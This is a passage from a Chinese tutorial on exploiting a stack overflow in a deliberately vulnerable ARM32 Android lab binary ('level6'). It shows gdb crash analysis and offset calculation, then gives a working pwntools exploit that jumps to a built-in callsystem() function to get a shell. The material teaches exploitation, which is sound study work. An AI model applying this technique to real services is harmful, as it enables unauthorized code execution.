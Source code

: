但因为我们需要获取崩溃时pc的值，所以在发送数据前，我们先使用gdb加载上level6。

我们先在电脑上运行python脚本：

```
#!bash
[pc]$ python test.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
…
```

然后在adb shell中用ps获取level6的pid，然后再挂载level6，然后用c继续：

```
#!bash
[adb]# ./gdb --pid=4895

GNU gdb 6.7
Copyright (C) 2007 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
……
Loaded symbols for /system/lib/libm.so
0xb6eff268 in read () from /system/lib/libc.so
(gdb) c
Continuing.
```

然后我们再在电脑上输入回车，让脚本发送数据。然后我们就能够在gdb里看到崩溃的pc的值了：

```
#!bash
Program received signal SIGSEGV, Segmentation fault.
0x41346540 in ?? ()
(gdb) 
```

因为我们编译的level6默认是thumb模式，所以我们要在这个崩溃的地址上加个1：`0x41346540+1 = 0x41346541`。然后用pattern.py计算一下溢出点的位置：

```
#!bash
$ python pattern.py offset 0x41346541
hex pattern decoded as: Ae4A
132
```

OK，我们知道了溢出点的位置，接下来我们找一下返回的地址。其实利用的代码在程序中已经有了。我们只要将pc指向callsystem()这个函数地址即可。我们在ida中可以看到地址为`0x00008554`：

![image-20190213013301576](assets/hacker_rop_arm32/image-20190213013301576.png)

因为`callsystem()`被编译成了thumb指令，所以我们需要将地址+1，让pc知道这里的代码为thumb指令，最终exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

callsystemaddr = 0x00008554 + 1
payload =  'A'*132 + p32(callsystemaddr)

p.send(payload)

p.interactive()
```
